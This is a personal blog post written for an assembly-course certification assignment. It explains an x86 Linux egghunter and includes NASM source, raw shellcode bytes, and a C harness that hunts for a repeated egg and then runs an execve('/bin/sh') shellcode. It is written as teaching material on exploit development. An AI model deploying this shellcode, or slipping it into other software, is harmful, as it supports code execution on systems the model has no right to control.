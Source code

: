 ```yaml
---
author: pol@blog
comments: true
date: 2014-04-09 07:30:35+00:00
layout: post
slug: slae-assignment-3-egghunter-demo
title: 'SLAE Assignment 3: EggHunter Demo'
wordpress_id: 2332
categories:
- Programmazione
- SLAE
tags:
- asm-x86
- nasm
- slae
---
```


This is the third of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:



	
  1. Study about EggHunter

	
  2. Make a working demo

	
  3. Make it configurable for different payload


An EggHunter is a small piece of code that search to a pattern (the egg) into the memory and once the pattern is found the shellcode will be executed. Tipically the egg is wrote twice, this to avoid the problem of finding an identical sequence in some other part of the memory.

<!-- more -->

The following is a PoC of an EggHunter:

    
    unsigned char egghunter[] = "egghunter shellcode"
    unsigned char shellcode[] = \
    "egg"
    "egg"
    "execve /bin/sh shellcode"
    
    int main(void){
        run(egghunter);
        return 0;
    }


This is the complete shellcode:

    
    ;Description:	Assignment #3 (EggHunter, 34 bytes)
    ;Shellcode:		\xd9\xee\x9b\xd9\x74\x24\xf4\x58\x40\x31\xdb\xb1\x02\x81\x3c\x18\xaa\xbb\xcc\xdd\x75\xf2\x83\xc3\x04\xfe\xc9\x75\xf0\x8d\x40\x08\xff\xe0
    ;Author: 		Paolo Stivanin <https://github.com/polslinux>
    ;SLAE ID:		526
    
    global _start
    section .text
    _start:
    	fldz
    	fstenv [esp-0xc]
    	pop eax
    lp1:
    	inc eax
    	xor ebx,ebx
    	mov cl,2
    lp2:
    	cmp dword [eax+ebx],0xddccbbaa
    	jne lp1
    	add ebx,4	;the egg must be found twice so i check eax and eax+4
    	dec cl		;this is a counter to track how many times the egg has been found
    	jnz lp2
    	lea eax,[eax+8]	;if the egg has been found then jmp into the shellcode
    	jmp eax


In this shellcode I didn't use the jmp-call-pop technique (which is more ids friendly) but instead I used two FPU instructions:



	
  * fldz to push +0.0 onto the FPU register stack

	
  * fstenv [esp-0xc] to save the current FPU operating environment at the specified memory location

	
  * and then pop eax . Noweax  contains the address offldz


The following is the graph of the egghunter shellcode flow:

[![graph_assign3]({{ site.baseurl }}/images/2014/04/graph_assign3-1024x601.png)]({{ site.baseurl }}/images/2014/04/graph_assign3.png)

This is the C source file:

    
    /* Description:	EggHunter(execve(/bin/sh))
     * Author:	Paolo Stivanin <https://github.com/polslinux>
     * SLAE ID:	526
     */
    
    #include <stdio.h>
    #include <string.h>
    
    unsigned char eggHunter[] = \
    "\xd9\xee\x9b\xd9\x74\x24\xf4\x58\x40\x31\xdb\xb1\x02\x81\x3c\x18\xaa\xbb\xcc\xdd\x75\xf2\x83\xc3\x04\xfe\xc9\x75\xf0\x8d\x40\x08\xff\xe0";
    
    unsigned char execveShellcode[] = \
    "\xaa\xbb\xcc\xdd" //egg
    "\xaa\xbb\xcc\xdd" //egg
    "\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68";
    
    int main(void){
    	printf("EggHunter: %zu\n", strlen(eggHunter));
    	printf("Shellcode: %zu\n", strlen(execveShellcode));
    	int (*ret)() = (int(*)())eggHunter;
    	ret();
    	return 0;
    }


and the following is the result of the above snippet:

[![assign3]({{ site.baseurl }}/images/2014/04/assign3-1024x552.png)]({{ site.baseurl }}/images/2014/04/assign3.png)



All the sources can be found in my [Github page](https://github.com/polslinux/SLAE/).


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)
**Student ID: SLAE-526**
